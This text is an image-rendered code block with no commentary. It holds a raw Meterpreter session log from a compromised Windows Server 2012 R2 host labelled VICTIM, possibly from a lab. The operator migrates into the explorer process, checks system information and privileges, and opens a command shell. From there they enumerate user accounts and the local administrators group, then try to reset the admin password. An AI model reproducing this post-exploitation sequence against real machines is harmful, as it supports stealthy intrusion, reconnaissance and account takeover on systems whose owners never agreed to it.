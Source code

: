 ```
meterpreter > whoami
[-] Unknown command: whoami.
meterpreter > net user
[-] Unknown command: net.
meterpreter > pgrep explorer
2760
meterpreter > migrate 2760
[*] Migrating from 2060 to 2760...
[*] Migration completed successfully.
meterpreter > sysinfo
Computer        : VICTIM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: VICTIM\admin
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > shell
Process 2132 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>net user
net user

User accounts for \\VICTIM

-------------------------------------------------------------------------------
admin                    Administrator            Guest                    
The command completed successfully.


C:\Windows\system32>net localgroup administrators
net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
admin
Administrator
The command completed successfully.

C:\Windows\system32>net user admin password123
net user admin password123
System error 5 has occurred.
```